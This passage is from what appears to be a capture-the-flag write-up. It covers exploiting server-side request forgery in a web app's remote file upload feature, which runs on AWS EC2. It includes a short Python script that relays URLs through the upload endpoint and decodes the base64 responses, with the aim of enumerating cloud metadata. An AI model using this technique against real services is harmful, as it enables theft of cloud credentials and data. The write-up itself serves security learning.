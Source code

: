 From the `User-Agent` header it is indeed a python based web language

And the version is interesting but when I searched it up for IDK maybe exploits or vuln I got nothing

I tried uploading a file and I got the image metadata (at least the web server "actually" does what it claims to do lool)
![](https://hackmd.io/_uploads/H10eoGqah.png)

We get the `Exiftool` version

But on searching again if there are any known vuln I got nothing :(

Back to the remote file upload

It is an obvious thing to try SSRF here

But the issue I had was I didn't see any response which made me know if it worked or not

And this was the main issue
![](https://hackmd.io/_uploads/ryMBjz563.png)

After a while of trying various things I tried the SSRF again but this time checked the page source

And boom we have the base64 encoded value of the result
![](https://hackmd.io/_uploads/H1Iwjfca3.png)

Ok now what?

Trying things like port fuzzing works but didn't lead anywhere

So back to the challenge description we know that it is running in a AWS EC2 Instance

And on [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#aws), there's a way to enumerate interesting files there via SSRF

And that's what I'm going to do here

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/ecowas23/prequal/web/incredibly%20self-referential/ssrf.py) to automate the stress :slightly_smiling_face: 

```python
import requests
import re
from base64 import b64decode

url = 'https://ctftogo-very-meta.chals.io/'
files={"file": "file"}

while True:
    try:
        inp = input('-$ ')
        if inp.lower() != 'q':
            data={"link": inp}
            response = requests.post(url, files=files, data=data)
            r = re.search('base64,([^"]*)', response.text).group(1)
            decoded = b64decode(r).decode('utf-8')
            print(decoded)
        else:
            exit()
    except Exception as e:
        print(e)
```
